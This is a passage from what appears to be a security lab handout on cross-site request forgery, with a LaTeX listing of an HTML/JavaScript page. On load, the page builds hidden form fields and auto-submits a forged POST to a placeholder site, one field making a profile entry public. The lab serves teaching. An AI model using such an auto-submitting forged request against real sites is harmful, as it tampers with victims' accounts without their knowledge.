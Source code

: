 \begin{lstlisting}
<html>
<body>
<h1>This page forges an HTTP POST request.</h1>
<script type="text/javascript">

function forge_post()
{
    var fields;

    // The following are form entries need to be filled out by attackers. 
    // The entries are made hidden, so the victim won't be able to see them.
    fields += "<input type='hidden' name='name' value='****'>";
    fields += "<input type='hidden' name='briefdescription' value='****'>";
    fields += "<input type='hidden' name='accesslevel[briefdescription]' 
                                    value='2'>";                         (*@\ding{192}@*)
    fields += "<input type='hidden' name='guid' value='****'>";

    // Create a <form> element.
    var p = document.createElement("form");
	 
    // Construct the form
    p.action = "http://www.example.com";
    p.innerHTML = fields;
    p.method = "post";
	 
    // Append the form to the current page.
    document.body.appendChild(p);
	 
    // Submit the form
    p.submit();
}

	
// Invoke forge_post() after the page is loaded.
window.onload = function() { forge_post();}
</script>
</body>
</html>
\end{lstlisting}


In Line~, the value \texttt{2} sets the access level of a field to public. 
This is needed, otherwise, the access level will be set by default to private, so others cannot
see this field. It should be noted that when copy-and-pasting the above code
from a PDF file, the  single quote character in the program may become 
something else (but still looks like a single quote). That will cause 
syntax errors. Replace all the single quote symbols with the one typed from 
your keyboard will fix those errors. 


\paragraph{Questions.}
In addition to describing your attack in full details, you also need to
answer the following questions in your report:

